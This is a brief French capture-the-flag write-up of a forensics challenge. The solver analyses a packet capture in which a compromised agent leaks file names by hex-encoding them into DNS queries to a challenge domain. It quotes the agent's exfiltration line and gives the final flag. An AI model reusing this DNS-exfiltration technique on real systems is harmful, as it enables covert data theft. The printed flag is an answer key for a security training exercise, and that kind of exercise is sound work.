 En lisant le fichier python on remarque que l'agent compromis effectue uniquement des requetes DNS.

On peut donc avec Wireshark filtrer uniquement les requetes DNS.

En annaltsant plus loin un remarque que il commence toujours par

`dns.resolver.resolve("never-gonna-give-you-up.hallebarde.404ctf.fr")`

avant d'effectuer : 

`dns.resolver.resolve(binascii.hexlify(filename.encode()).decode() + ".hallebarde.404ctf.fr")`

donc en cherchant tout les paquets qui commencent par ‘never....’ on peut trouver dans les requetes qui suivent le nom des fichires extraits .

on peut les lister et après les avoir traduit avec la fonction unhexlify de binascii on trouve : 

- exfiltration.py
- flag.txt
- hallebarde.png
- super-secret.pdf

donc le flag est : 

>404CTF{exfiltration.py,flag.txt,hallebarde.png,super-secret.pdf}